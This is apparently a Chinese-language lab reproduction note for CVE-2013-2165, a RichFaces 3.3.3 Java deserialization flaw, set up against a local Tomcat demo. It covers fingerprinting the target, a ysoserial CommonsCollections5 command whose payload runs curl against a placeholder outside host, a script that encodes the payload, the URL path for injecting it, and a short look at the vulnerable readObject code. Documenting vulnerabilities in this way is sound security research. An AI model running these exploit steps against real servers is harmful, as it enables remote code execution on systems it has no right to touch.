 # CVE-2013-2165

richfaces-demo-3.3.3.Final-tomcat6.war包搭建成功

## 辨别

访问本地`/welcome.jsf`

观察网页会有以下特征

```
<script src="/a4j/g/3_3_3.Final/org/ajax4jsf/framework.pack.js.jsf" type="text/javascript">
```

## 利用

```
生成反序列化利用:
java -jar ysoserial.jar CommonsCollections5 "curl -v http://www.xxx.com/" > payload.bin

生成richfaces加密后的payload:
java -jar CVE-2013-2165.jar /Users/l3m0n/work/tools/java/payload.bin
```

![-w1436](media/15434847194066/15434904375531.jpg)

需要注意的是，payload前一定要是`DATA`，其中后缀`jsf`看网页html情况

```
http://localhost:8085/a4j/s/3_3_3.Finalorg/richfaces/renderkit/html/css/extended_both.xcss/DATA/[Payload替换位置].jsf
```

## 分析

漏洞主要位于: `richfaces-impl-3.3.3.Final.jar!/org/ajax4jsf/resource/ResourceBuilderImpl.class:221`

![-w1432](media/15434847194066/15434856321698.jpg)

整个流程也比较简单，请求`http://localhost:8085/a4j/s/3_3_3.Finalorg/richfaces/renderkit/html/css/extended_both.xcss/DATA/eAF7sqpgb-jyGdIAFrMEaw__.jsf`

会将`DATA`后面的数据(也就是`eAF7sqpgb-jyGdIAFrMEaw`)传入到`dataString`变量中，最后会进入readObject，要注意上图访问的是`DATB`，最后的返回是一个数组，没有进入反序列中。

